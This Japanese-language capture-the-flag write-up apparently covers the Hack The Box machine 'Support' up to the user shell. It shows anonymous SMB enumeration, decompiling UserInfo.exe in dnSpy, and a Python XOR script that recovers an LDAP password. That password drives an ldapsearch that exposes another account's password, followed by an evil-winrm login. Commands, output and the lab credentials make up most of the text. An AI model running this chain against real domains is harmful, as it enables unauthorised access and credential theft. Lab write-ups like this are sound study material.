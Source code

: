 まずsmbシェアを調べると、見慣れないsupport-toolsなフォルダがある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient -L 10.10.11.174 

Password for [WORKGROUP\shoebill]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
  ```
  
 パスワード無しでsupport-toolsにアクセスして中身を確認する。
 
 ```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\shoebill]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 21 02:01:06 2022
  ..                                  D        0  Sat May 28 20:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 20:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 20:19:55 2022
  putty.exe                           A  1273576  Sat May 28 20:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 20:19:31 2022
  UserInfo.exe.zip                    A   277499  Thu Jul 21 02:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 20:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 20:19:43 2022
```

UserInfo.exe.zipがユーザ情報を得られそうなのでこれをダウンロードする。

```
smb: \> get UsreInfo.exe.zip
```
ダウンロード後、解凍してdnSpyで解析する。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/support-tools]
└─$ unzip UserInfo.exe.zip
```
`UserInfo.exe`をdnSpyでみると暗号化されたパスワード、キー、そしてパスワードを生成する`getPassword()`関数が見つかる。

![dnspy](https://user-images.githubusercontent.com/85237728/194679210-75055544-fd20-497f-bbca-8caedabb954e.png)

XORは二回繰り返すと元に戻るので、このコードを参考にPythonスクリプトを書く。

```python
#!/usr/bin/env python3
from base64 import b64decode
from pwn import *

array = b64decode('0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E')
key = bytes('armando', 'utf-8')
ans = b''
for i in range(len(array)):
    temp = array[i] ^ key[i % len('armando')] ^ 223
    ans += pack(temp, 'all')

print('ans:', ans)
```
実行すると生のパスワードを得る。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ python3 decryptor.py
ans: b'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
しかし、このパスワードはユーザsupportのパスワードではない。

もう少しdnSpyの解析結果をみると、`LdapQuery()`というLdapについての関数が見つかる。

![ldapq](https://user-images.githubusercontent.com/85237728/194679714-8b0abf6c-6c51-40f4-8785-4845d4691776.png)

これにより"ldap"という名前のユーザいることがわかった。

ユーザ名ldap、パスワードnvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmzのcredentialを使って`ldapsearch`コマンドを実行する。

以下のように実行してUser情報をenumすると、ユーザsupportの「info」の欄にパスワードらしき文字列がある。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174/LdapSearch]
└─$ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,DC=support,DC=htb'
...
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
...
```

ユーザ名support、パスワードIronside47pleasure40Watchfulで`evil-winrm`を実行したらユーザsupportのシェルがとれた。

```
┌──(shoebill㉿shoebill)-[~/Support_10.10.11.174]
└─$ evil-winrm --ip 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```
![usertxt](https://user-images.githubusercontent.com/85237728/194680079-a0d7880f-ce8b-407e-8baf-f57a8367a305.png)


